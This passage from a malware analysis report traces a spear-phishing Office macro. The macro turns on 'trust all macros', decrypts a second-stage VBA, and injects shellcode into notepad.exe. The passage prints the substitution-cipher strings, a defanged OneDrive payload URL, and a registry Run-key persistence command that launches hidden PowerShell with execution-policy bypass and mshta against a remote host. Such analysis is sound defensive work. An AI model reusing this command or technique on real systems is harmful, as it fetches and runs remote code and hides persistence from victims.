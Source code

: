 By doing so, Microsoft Office will trust all macros and run any code without showing a security warning or requiring the user’s permission. Next, the macro creates a mutex named ‘​​sensiblemtv16n’ and opens the malicious file once more. Thanks to the “trust all macros” setting, the macro will be executed automatically.
If no Kaspersky security software is installed, the macro directly proceeds to decrypt the next stage’s payload. In order to achieve this, it uses a variation of a substitution method. The script compares the given encrypted string with a second string to get an index of matched characters. Next, it receives a decrypted character with an index acquired from the first string.

First string: BU+13r7JX9A)dwxvD5h2WpQOGfbmNKPcLelj(kogHs.#yi*IET6V&tC,uYz=Z0RS8aM4Fqn
Second string: v&tC,uYz=Z0RS8aM4FqnD5h2WpQOGfbmNKPcLelj(kogHs.#yi*IET6V7JX9A)dwxBU+13r

The decrypted second stage Visual Basic Application (VBA) contains shellcode as a hex string. This script is responsible for injecting the shellcode into the process notepad.exe.

Shellcode in the second stage VBA
The shellcode contains the URL to fetch the next stage payload. After fetching the payload, the shellcode decrypts it with trivial single-byte XOR decryption. Unfortunately, we weren’t able to gather the final payload when we investigated this sample.
The payload’s download path is:





hxxps://api.onedrive[.]com/v1.0/shares/u!aHR0cHM6Ly8xZHJ2Lm1zL3UvcyFBalVyZDlodU1wUWNjTGt4bXhBV0pjQU1ja2M_ZT1mUnc4VHg/root/content




1

hxxps://api.onedrive[.]com/v1.0/shares/u!aHR0cHM6Ly8xZHJ2Lm1zL3UvcyFBalVyZDlodU1wUWNjTGt4bXhBV0pjQU1ja2M_ZT1mUnc4VHg/root/content




Host investigation
As a result of our efforts in helping the victim with the analysis, we had a chance to investigate the host of the owner who sent the spear-phishing email. When we first checked the process list, there was a suspicious PowerShell process running with a rather suspicious parameter.
This PowerShell command was registered via the Run registry key as a mechanism for persistence:

Registry path: HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run – ONEGO






c:\windows\system32\cmd.exe /c PowerShell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass ping -n 1 -w 300000 2.2.2.2 || mshta hxxp://[redacted].cafe24[.]com/bbs/probook/1.html




1

c:\windows\system32\cmd.exe /c PowerShell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass ping -n 1 -w 300000 2.2.2.2 || mshta hxxp://[redacted].cafe24[.]com/bbs/probook/1.html


